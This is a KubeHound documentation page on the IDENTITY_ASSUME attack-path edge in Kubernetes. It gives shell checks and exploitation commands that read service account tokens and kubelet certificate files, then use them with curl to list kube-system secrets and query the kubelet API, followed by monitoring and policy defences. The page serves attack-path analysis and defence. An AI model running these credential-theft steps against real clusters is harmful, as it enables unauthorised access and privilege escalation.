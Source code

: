 ```yaml
---
title: IDENTITY_ASSUME
---
```


<!--
id: IDENTITY_ASSUME
name: "Act as identity"
mitreAttackTechnique: T1078 - Valid Accounts
mitreAttackTactic: TA0004 - Privilege escalation
-->

# IDENTITY_ASSUME

| Source                                                             | Destination                         | MITRE ATT&CK                                                        |
| ------------------------------------------------------------------ | ----------------------------------- | ------------------------------------------------------------------- |
| [Container](../entities/container.md), [Node](../entities/node.md) | [Identity](../entities/identity.md) | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

Represents the capacity to act as an [Identity](../entities/identity.md) via ownership of a service account token, user PKI certificate, etc.

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount or access to a node file system.

## Checks

### Container 

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

### Node 

Check the kubelet configuration:

```bash
cat $NODE_ROOT/etc/kubernetes/kubelet.conf 
```

This should contain the paths of the kubelet user certificates that we can steal to impersonate the node user:

```yaml
users:
- name: default-auth
  user:
    client-certificate: /var/lib/kubelet/pki/kubelet-client-current.pem
    client-key: /var/lib/kubelet/pki/kubelet-client-current.pem
```

Check the file(s) are accessible:

```bash
ls -la $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem
```

## Exploitation

### Container 

Assuming a valid token is recovered from e.g a mounted service account a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

### Node

The kubelet PKI certificates can be used to authenticate to either the kubelet or the K8s API:

```bash
 curl -k --cacert $NODE_ROOT/etc/kubernetes/pki/ca.crt --key $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem --cert {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem https://${NODE_IP}:10250/pods/ 
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssumeContainer](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_container.go)
+ [IdentityAssumeNode](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/identity_assume_node.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
+ [Kubelet API Overview](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html)
+ [Node AuthN/AuthZ](https://kubernetes.io/docs/reference/access-authn-authz/node/)
